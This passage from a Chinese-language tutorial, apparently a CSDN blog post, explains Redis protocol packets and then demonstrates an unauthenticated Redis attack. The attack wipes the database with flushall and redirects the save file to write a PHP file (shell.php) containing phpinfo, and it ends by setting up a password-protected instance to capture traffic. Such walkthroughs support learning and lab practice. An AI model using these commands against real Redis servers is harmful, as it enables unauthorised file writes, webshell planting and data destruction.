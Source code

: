 我们可以通过上面这个知识点来解读一下数据包



<img src="https://i-blog.csdnimg.cn/blog_migrate/6f485117d6cb88dffefd38e6b67f5bb6.png" alt="" style="max-height:77px; box-sizing:content-box;" />


```cobol
*1
 
代表这个命令行只存在一个元素 就是 ping
 
$4 
 
代表字符数为 4   ping
 
```

说了这么多 我们要如何实现攻击呢

### 攻击

#### 无密码未授权的攻击

```cobol
ip:6788> flushall
OK
ip:6788> config set dir /tmp
OK
ip:6788> config set dbfilename shell.php
OK
ip:6788> set x "<?php phpinfo();?>"
OK
ip:6788> save
OK
 
```

然后我们去看看 是否写入了



<img src="https://i-blog.csdnimg.cn/blog_migrate/f51d58b0fb76bc4bb0dfb65a41cd94a7.png" alt="" style="max-height:171px; box-sizing:content-box;" />


我们发现写入成功 因为这是无密码 在做题或实际中很少存在

#### 认证访问

我们可以重新拉取一个镜像

```cobol
# 进入容器中修改配置文件
sed -i 's/#requirepass 123123/requirepass 123123/g' /etc/redis.conf
 
exit
 
docker restart redis_test
 
tcpdump -i eth0 port 6379 -w pass.pcap
 
```
